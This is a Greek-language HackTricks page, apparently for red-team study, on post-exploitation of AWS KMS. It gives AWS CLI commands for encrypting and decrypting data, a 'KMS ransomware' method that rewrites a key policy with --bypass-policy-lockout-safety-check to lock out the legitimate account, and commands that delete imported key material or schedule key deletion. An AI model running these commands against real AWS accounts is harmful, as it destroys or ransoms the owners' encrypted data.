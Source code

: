 # AWS - Μετέπειτα Εκμετάλλευση KMS

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>

## KMS

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Κρυπτογράφηση/Αποκρυπτογράφηση πληροφοριών

* Χρησιμοποιώντας ένα **συμμετρικό** κλειδί
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Χρησιμοποιώντας ένα **ασύμμετρο** κλειδί:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

Ένας επιτιθέμενος με προνομιακή πρόσβαση στο KMS θα μπορούσε να τροποποιήσει την πολιτική των κλειδιών του KMS και **να χορηγήσει πρόσβαση στον λογαριασμό του**, αφαιρώντας την πρόσβαση που είχε χορηγηθεί στον νόμιμο λογαριασμό.

Στη συνέχεια, οι χρήστες του νόμιμου λογαριασμού δεν θα μπορούν να έχουν πρόσβαση σε οποιαδήποτε πληροφορία ή υπηρεσία που έχει κρυπτογραφηθεί με αυτά τα κλειδιά, δημιουργώντας έναν εύκολο αλλά αποτελεσματικό ransomware στον λογαριασμό.

{% hint style="warning" %}
Σημειώστε ότι τα **διαχειριζόμενα κλειδιά του AWS δεν επηρεάζονται** από αυτήν την επίθεση, μόνο τα **κλειδιά που διαχειρίζεται ο πελάτης**.

Επίσης, σημειώστε την ανάγκη χρήσης της παραμέτρου **`--bypass-policy-lockout-safety-check`** (η έλλειψη αυτής της επιλογής στον ιστότοπο καθιστά αυτήν την επίθεση δυνατή μόνο μέσω της γραμμής εντολών).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Σημειώστε ότι αν αλλάξετε αυτήν την πολιτική και δώσετε πρόσβαση μόνο σε ένα εξωτερικό λογαριασμό, και στη συνέχεια από αυτόν τον εξωτερικό λογαριασμό προσπαθήσετε να ορίσετε μια νέα πολιτική για **να δώσετε ξανά πρόσβαση στον αρχικό λογαριασμό, δεν θα μπορέσετε**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Γενικός KMS Ransomware

#### Παγκόσμιος KMS Ransomware

Υπάρχει ένας άλλος τρόπος για να πραγματοποιηθεί ένας παγκόσμιος KMS Ransomware, ο οποίος θα περιλαμβάνει τα ακόλουθα βήματα:

* Δημιουργία ενός νέου **κλειδιού με υλικό κλειδιού** που εισήχθη από τον εισβολέα
* **Επανα-κρυπτογράφηση παλαιότερων δεδομένων** που έχουν κρυπτογραφηθεί με την προηγούμενη έκδοση με τη νέα.
* **Διαγραφή του KMS κλειδιού**
* Τώρα μόνο ο εισβολέας, που έχει το αρχικό υλικό κλειδιού, θα μπορούσε να αποκρυπτογραφήσει τα κρυπτογραφημένα δεδομένα

### Καταστροφή κλειδιϋ
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Σημειώστε ότι η AWS τώρα **εμποδίζει τις προηγούμενες ενέργειες από να πραγματοποιούνται από λογαριασμό σε διαφορετικό λογαριασμό:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>Μάθετε το χάκινγκ στην AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
